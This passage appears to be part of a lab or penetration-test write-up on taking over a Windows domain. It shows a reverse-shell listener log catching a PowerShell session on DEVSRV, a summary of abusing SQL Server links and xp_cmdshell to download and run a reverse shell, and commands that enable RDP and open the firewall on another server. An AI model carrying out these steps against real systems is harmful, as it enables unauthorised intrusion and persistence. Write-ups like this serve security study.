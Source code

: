 ```sh

VERBOSE: Set Stream 1: TCP

VERBOSE: Set Stream 2: Console

VERBOSE: Setting up Stream 1...

VERBOSE: Listening on [0.0.0.0] (port 443)

VERBOSE: Connection from [172.16.3.31] port [tcp] accepted (source port 49718)

VERBOSE: Setting up Stream 2...

VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user devsqladmin on DEVSRV

Copyright (C) 2015 Microsoft Corporation. All rights reserved.

  

PS C:\Windows\system32>

  

PS C:\Windows\system32> PS C:\Windows\system32>

PS C:\Windows\system32> whoami

nebula\devsqladmin

PS C:\Windows\system32>
```

the entire process is as follows:

exploit the SQL Server links to access other linked SQL Servers.

execute `xp_cmdshell`, which will allow me to execute OS commands.

download + execute a reverse shell script that will give me a reverse shell on `DEVSRV` as the `DEVSQLADMIN` user. 


stay tuned for part 2, where i takeover the production server and domain controllers!

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp